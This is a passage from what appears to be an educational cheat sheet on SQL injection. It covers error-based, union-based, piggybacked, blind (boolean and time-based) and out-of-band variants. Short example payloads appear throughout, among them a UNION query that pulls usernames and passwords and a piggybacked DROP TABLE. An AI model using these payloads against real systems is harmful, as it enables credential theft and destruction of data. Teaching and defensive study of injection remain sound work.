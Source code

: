 - Definition: Leverage DB error messages to reveal data structure.

- Examples:

  ```sql
  ' OR 1=1; -- 
  ```

  If an error reveals table or column names, you confirm vulnerability.

#### 2.2 Union-Based SQL Injections

- Definition: Use `UNION` to combine results of multiple SELECT statements.

- Example:

  ```sql
  ' UNION SELECT username, password FROM users; --
  ```

#### 2.3 Other In-Band Variants

- End-of-Line Commands (`--`, `#`):

  ```sql
  ' OR '1'='1' -- 
  ```

- In-Line Comments (`/* ... */`)

- Piggybacked Queries:

  ```sql
  ' ; DROP TABLE users; --
  ```

#### 2.4 Blind (Inferential) SQL Injection

- Boolean-Based

  ```sql
  ' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)=1 --
  ```

- Time-Based

  ```sql
  ' OR IF(1=1,SLEEP(5),0) --
  ```

#### 2.5 Out-of-Band SQL Injection

- Definition: Use alternate channels (DNS requests, HTTP callbacks) for exfiltration.
- Key Point: Attacker triggers DB queries that send data to a remote server.

------

### 3. SQL Injection Methodology

#### 3.1 Information Gathering
